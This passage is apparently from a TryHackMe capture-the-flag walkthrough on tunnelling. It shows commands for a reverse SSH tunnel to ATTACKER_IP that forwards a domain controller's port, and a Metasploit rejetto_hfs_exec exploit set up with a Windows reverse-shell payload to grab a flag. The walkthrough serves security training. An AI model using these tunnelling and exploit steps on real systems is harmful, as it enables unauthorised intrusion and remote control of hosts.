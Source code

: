 * On this RDP session you can see the `flag.bat` file on the desktop. Run it to get your final flag.

#### Tunnelling Complex Exploits

* Create a user to use for SSH tunneling:

```bash
$ useradd tunneluser -m -d /home/tunneluser -s /bin/true
$ passwd tunneluser
$ sudo systemctl start ssh
```

* Connect to SSH using your credentials from `http://distributor.za.tryhackme.com/creds`:

```bash
$ ssh za\\AD_USERNAME@thmjmp2.za.tryhackme.com
```

* Inside this session, use your newly made `tunneluser` and make sure to replace the `SRVPORT=6666` and `LPORT=7878` to something else:

```bash
$ ssh tunneluser@ATTACKER_IP -R 8888:thmdc.za.tryhackme.com:80 -L *:6666:127.0.0.1:6666 -L *:7878:127.0.0.1:7878 -N
```

* Open `metasploit` and configure the exploit so you can get a listener:

```bash
$ msfconsole
> use rejetto_hfs_exec
> set payload windows/shell_reverse_tcp
> set lhost thmjmp2.za.tryhackme.com
> set ReverseListenerBindAddress 127.0.0.1

> set lport 7878
> set srvhost 127.0.0.1
> set srvport 6666

> set rhosts 127.0.0.1
> set rport 8888
> exploit
```

* If all went well, you will receive a shell where you can find the final flag located at `c:\hfs\flag.txt`
* After getting the flag, you can disable disable SSH on your machine if you don't want it to keep running:

```bash
$ sudo systemctl stop ssh
$ sudo systemctl disable ssh
```